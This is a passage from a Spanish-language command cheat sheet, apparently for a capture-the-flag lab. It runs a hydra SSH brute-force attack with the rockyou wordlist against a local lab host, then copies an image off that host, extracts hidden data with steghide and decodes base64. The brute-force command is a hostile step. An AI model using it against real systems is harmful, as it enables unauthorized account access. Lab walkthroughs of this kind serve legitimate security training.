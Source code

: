 -o salida.txt: Guarda resultados en archivo.

```bash
hydra -l carlota -P rockyou.txt ssh://172.17.0.2 -t 10
```

Ataque de fuerza bruta al servicio SSH.

Variantes:

-L usuarios.txt -P claves.txt: Lista de usuarios y contraseñas.

-f: Detenerse en el primer éxito.

-V: Muestra cada intento en consola.

```bash
scp carlota@172.17.0.2:/ruta/imagen.jpg /home/kali/...
```

Descarga la imagen del host remoto.

Ver variantes ya descritas en el primer comando scp.

```bash
file imagen.jpg
```

Detecta el tipo de archivo.

Variantes:

```bash
file *: Detecta todos los archivos del directorio.
```

```bash
file -i imagen.jpg: Muestra tipo MIME.
```

```bash
file -b imagen.jpg: Salida sin nombre de archivo.
```

```bash
steghide --extract -sf imagen.jpg
```

Extrae datos ocultos dentro de imágenes.

Variantes:

--info -sf archivo.jpg: Información del archivo.

--embed -cf cover.jpg -ef secret.txt: Inserta secreto.

--extract -sf archivo.jpg -p clave: Usa contraseña.

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Decodifica base64.

Variantes:
